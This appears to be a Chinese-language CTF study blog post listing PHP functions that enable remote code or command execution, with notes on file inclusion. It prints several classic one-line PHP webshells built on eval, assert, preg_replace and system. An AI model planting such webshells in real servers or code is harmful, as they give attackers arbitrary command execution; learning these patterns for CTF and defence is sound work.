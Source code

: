 ```yaml
---
layout:     post
title:      Web小知识-Just RCE
subtitle:   A little start
date:       2025-04-15
author:     sword Reforge
header-img: img/post-bg-coffee.jpg
catalog: 	  true
tags:

   - 知识
---
```


###### 常用函数

eval()
system()
assert()
exec()
preg_replace()
shell_exec()
call_user_func()
passthru()
array_map()
popen()
这些函数都是常见的敏感函数，容易造成一些危险的漏洞
当然也是很重要的考点，其具体作用参考(https://zhuanlan.zhihu.com/p/622502997)

这些是一个笼统的记录，他们有不同的危险特色：
\###1、代码执行系
这些函数能够执行一些php的代码，造成危险，同时是flag的获取点

#### eval()

大名鼎鼎，臭名昭著。一句话木马常客一号。

```
<?php @eval($_POST['shell']);?>
```



#### assert()

同样是很敏感的东西，一句话木马常客二号

```
<?php assert(@$_POST['shell']); ?>
```



#### preg_replace()

这个不太常用，当匹配模式/e时，该函数会将$replacement作为php代码执行
贴一份对应一句话木马

```
preg_replace("/test/e",$_GET["shell"],"just test");
```



剩下几个使用范围较少，有的甚至已经被弃用了，这里就不做介绍了：
create_function() (**在php7.2.0后被废弃**)
array_map()
call_user_func()
call_user_func_array()
array_filter()

### 2、命令执行系

#### system()

漏洞头头，这里放出一句话木马的形式：

```
<?php
    system($_GET['cmd']);
?>
```



#### exec() 执行外部程序

```
<?php 
    echo exec("whoami");
?>
```



#### shell_exec() 通过shell环境执行命令，并将完整的输出以字符串的方式返回

```
<?php 
    echo shell_exec("whoami");
?>
```



剩下的由于不怎么常用，这里仅做列举
passthru() 执行外部程序并且显示原始输出

```
<?php 
    passthru("whoami");
?>
```



proc_open() 执行一个命令，并且打开用来输入/输出的文件指针
pcntl_exec() 在当前进程空间执行指定程序
popen() 打开进程文件指针
反引号，实质上还是调用的shell_exec()函数，在CTF题目里面有的时候会忘记过滤导致直接拿到flag

### 文件包含系

php中包含的函数一共有四个，主要作用为包含并运行指定文件
require() 函数
inclue() 函数
require_once() 函数
include_once() 函数
include()与require_once()主要的区别是：include()在包含的过程中如果出现错误，会抛出一个警告，程序继续运行；而require()函数出现错误时，会直接报错并退出程序的执行
require_once()和include_once()，显然表示的是文件只包含一次的意思，避免函数重定义和变量重新赋值等问题
这些函数通常配和伪协议来实现文件包含漏洞；

### SSRF系

~~没学过还不会，先放着~~

### XXE系

~~也没学过~~

## 其他：

php的变量名使用字母数字和下滑线构成的，所以会将空格、+、点、[转换为下划线，但是当[提前出现后，后面的点就不会再变成_了
